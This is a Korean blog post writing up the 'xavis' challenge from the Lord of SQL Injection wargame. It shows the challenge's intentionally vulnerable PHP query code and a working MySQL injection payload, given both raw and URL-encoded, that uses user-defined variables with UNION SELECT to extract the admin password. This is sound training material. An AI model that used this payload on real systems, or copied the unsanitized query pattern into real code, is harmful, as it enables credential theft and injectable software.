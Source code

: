 ```yaml
---
layout: post
title: MySQL Injection - User variables and Union closure
comments: true
---
```


좋은 [~~유통기간은 안지난~~ 떡밥](https://www.facebook.com/rubiya.god/posts/728908737290872)이 있어서 정리합니다.
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis");
  highlight_file(__FILE__);
?>
```
아시는 분들은 아시겠지만 위 코드는 [Lord of SQL Injection](http://los.eagle-jump.org/)의 [xavius](http://los.eagle-jump.org/xavis_fd4389515d6540477114ec3c79623afe.php)문제입니다.

본래 문제의 의도는 Blind SQL Injection을 통해 키값을 뽑아낸 후 인증을 하라는 식으로 문제가 구성이 되어 있는 것을 볼 수 있습니다.

하지만 정작 이 문제를 만든 장본인이 다른 방법이 있다고 떡밥을 뿌리고 댓글에 답을 적어놨죠...

자 한번 [4.6.5 Using User-Defined Variables](https://dev.mysql.com/doc/refman/5.7/en/example-user-variables.html)를 봐보시면 아래와 같은 예시를 보실 수 있습니다.
```SQL
mysql> SELECT @min_price:=MIN(price),@max_price:=MAX(price) FROM shop;
mysql> SELECT * FROM shop WHERE price=@min_price OR price=@max_price;
+---------+--------+-------+
| article | dealer | price |
+---------+--------+-------+
|    0003 | D      |  1.25 |
|    0004 | D      | 19.95 |
+---------+--------+-------+
```
`min_price`와 `max_price`라는 User defined variables를 이용하는 것을 볼 수 있습니다.

이를 Where closure상에서도 먹히더군요.

```SQL
SELECT foo FROM bar WHERE 1 AND @baz:=foo;
```
이런 식으로 말이죠.

그래서 Union Closure로 저 `@baz`를 담아내면 성공적으로 Injection이 되는 겁니다.

```SQL
SELECT foo FROM bar WHERE 1 AND @baz:=foo UNION SELECT @baz LIMIT 1,1;
```

이와 유사하게 xavius문제에 적용을 한다면...

```SQL
select id from prob_xavis where id='admin' and pw='' OR 1 AND @t:=pw UNION SELECT @t#'
```
`?pw=%27%20OR%201%20AND%20@t:=pw%20UNION%20SELECT%20@t%23`와 같이 쿼리를 실행시켰을 경우 admin의 패스워드를 가져 오게 되겠죠.
